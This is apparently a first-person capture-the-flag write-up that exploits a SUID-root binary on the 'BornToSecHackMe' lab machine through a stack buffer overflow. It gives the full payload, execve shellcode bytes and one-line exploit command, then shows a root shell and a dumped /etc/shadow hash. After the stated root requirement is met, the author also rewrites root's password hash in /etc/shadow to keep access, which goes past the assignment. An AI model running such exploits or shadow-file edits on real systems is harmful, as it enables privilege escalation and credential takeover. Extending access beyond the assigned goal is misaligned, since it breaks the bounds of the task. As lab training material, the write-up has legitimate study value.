Using the offsets confirmed above, I crafted a payload with the following structure:
 
1. **140 bytes of padding** (`'A' * 140`) to fill the buffer up to the saved return address slot.
2. **4 bytes overwriting the return address** (`\x0c\xf8\xff\xbf`, little-endian for `0xbffff80c`) — a stack address chosen to land inside the filler region of the same argument string, further along.
3. **300 additional bytes of `'\x90'` (NOP sled)** a harmless single-byte instruction, so jumping anywhere into this region just "slides" forward one instruction at a time until reaching the real payload.
4. **Shellcode** at the end of the string: a standard 21-byte `execve("/bin/sh")` shellcode (`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`), which zeroes `eax`, pushes `"/bin/sh"` onto the stack, and invokes `execve`.
The full command:
 
```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c "print('A'*140+'\x0c\xf8\xff\xbf'+300*'\x90'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"`
```
 
The overflow succeeded, execution was redirected into the landing zone/shellcode, and `execve("/bin/sh")` ran with the process's **effective UID still set to root** (since the binary is SUID-root and the shellcode doesn't drop privileges):
 
```
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
 
This satisfies the assignment's root requirement exactly: `uid`/`euid` of `0`, with a real interactive shell capable of running arbitrary commands.
 
As further proof, I read `/etc/shadow` (only accessible to root):
 
```
# cat /etc/shadow
root:$6$P3HXAOsR$Lmz85I7RXUJLU8KR.C2okbToyNfq5QIDj6YOoWYilDWQ3e.dhXC/bamN4xLcAZVHHLFuszMaGD6nRa5HrFAls0:16723:0:99999:7:::
...
```
 
### Establishing Persistent Root Access
 
The overflow only grants a root shell for the lifetime of that `exploit_me` process — it doesn't survive logging out. To establish a way back into a root shell without re-running the exploit each time, I first tried the straightforward approach:
 
Since I already had root privileges (able to read and write `/etc/shadow` directly), I replaced root's password hash with `zaz`'s own hash, whose plaintext password I already knew:
 
```bash
ZAZ_HASH=$(grep "^zaz:" /etc/shadow | cut -d: -f2)
sed -i "s|^root:[^:]*|root:$ZAZ_HASH|" /etc/shadow
```
 
This makes root's password the same as `zaz`'s known password:
 
```
# su root
Password:
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=0(root) groups=0(root)
root@BornToSecHackMe:/home/zaz# cd
root@BornToSecHackMe:~# la
.aptitude  .bash_history  .bashrc  .profile  README  .rnd  .ssh  .vim  .viminfo
root@BornToSecHackMe:~# cat README
CONGRATULATIONS !!!!
To be continued...
root@BornToSecHackMe:~#
```


